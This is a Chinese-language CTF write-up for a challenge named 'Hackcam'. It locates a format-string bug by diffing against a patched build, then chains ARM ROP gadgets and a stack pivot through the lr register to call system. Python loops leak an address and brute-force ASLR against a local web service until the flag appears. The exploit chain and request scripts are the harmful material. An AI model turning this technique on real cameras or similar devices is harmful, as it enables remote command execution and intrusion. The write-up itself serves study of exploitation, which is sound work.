

# Hackcam

和最新版本做bindiff，找到修复了一个格式化字符串。
		

利用起来比较困难，字符串本身不在栈上，所以只能利用栈上原有的指针。首先观察到可以写两个跳转地址，但是没有找到很好的方式通过两次跳转实现任意命令执行，所以想到了利用lr寄存器+栈迁移实现第三次跳转，实现的方法如下：

栈上两个跳转地址写成这两个gadget

```
# 0x0000583c: ldr r3, [fp, #-0xc]; mov r0, r3; sub sp, fp, #4; pop {fp, pc}; 
# 0x000053f4: ldr r3, [r3]; mov r0, r3; add sp, fp, #0; pop {fp}; bx lr; 
```

格式化字符串第一个参数是格式化字符串的地址，写进去调用system的地址，第34个参数最后会传进sp，写字符串地址，最终将栈迁移到字符串地址上，第5个参数会被加载进r0，作为参数，写字符串地址+4，跳过前面4位system地址。

在第二次跳转之后，由于执行过程中进行了跳转，所以lr是一个合法地址，在下面这个位置，可以完成一次栈迁移及控制流劫持。

```
   0x46d9c0    nop
   0x46d9c4    sub    sp, fp, #4
   0x46d9c8    pop    {fp, pc}
```

经过一些测试，字符串的地址随着输入长度的不同会有变化，因此先传进去同样的输入leak字符串地址。

```python
while True:
    res = requests.put(url, json=j, headers=header)
    # print(res.text)
    if res.text[20] != " " and res.text[20] != ";":
        addr = int(res.text[24:28], 16) + 0x450000
        print(hex(addr))
        pad = addr - 0x40A9C0
        pad_str = str(pad)
        pad_str = pad_str[0] + "%3" + pad_str[1:]
        break

print(pad_str)
```

爆破aslr，32位机器只有一位随机，很好爆破，不过有时候会观察到json中的项顺序和输入不同，实际成功的概率要比1/16稍低一些。

```python
for i in range(100):
    res = requests.put(url, json=j, headers=header)
    if res.text[20] != " " and res.text[20] != ";":
        addr = int(res.text[22:24], 16)
        print(hex(addr))
        if addr == 0x49:
            res = requests.get("http://127.0.0.1:8080/index.html", headers=header)
            if "flag" in res.text:
                print(res.text)
                break
```
